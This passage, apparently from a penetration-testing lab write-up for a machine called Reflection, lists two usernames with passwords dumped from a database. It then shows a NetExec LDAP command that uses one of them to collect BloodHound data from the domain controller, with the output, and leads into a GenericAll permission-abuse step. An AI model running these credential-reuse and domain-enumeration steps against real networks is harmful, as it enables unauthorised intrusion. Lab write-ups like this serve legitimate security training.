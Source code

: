 ![alt text](<../assets/images/Screenshot_2025-02-04_21_06_49.png>)

    1   b'abbie.smith'    b'CMe1x+nlRaaWEw'   

    2   b'dorothy.rose'   b'hC_fny3OK9glSJ'
now we can dump bloodhound data 😉

#### bloodhound data

    ➜  Reflection nxc ldap DC01.reflection.vl -u "abbie.smith" -p "CMe1x+nlRaaWEw" --bloodhound --dns-server 10.10.129.245 --collection All
    SMB         10.10.129.245   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
    LDAP        10.10.129.245   389    DC01             [+] reflection.vl\abbie.smith:CMe1x+nlRaaWEw 
    LDAP        10.10.129.245   389    DC01             Resolved collection methods: localadmin, container, trusts, psremote, session, rdp, dcom, objectprops, group, acl
    LDAP        10.10.129.245   389    DC01             Done in 00M 17S
    LDAP        10.10.129.245   389    DC01             Compressing output into /root/.nxc/logs/DC01_10.10.129.245_2025-02-04_211112_bloodhound.zip

### GenericAll

![alt text](<../assets/images/1 (7).png>)
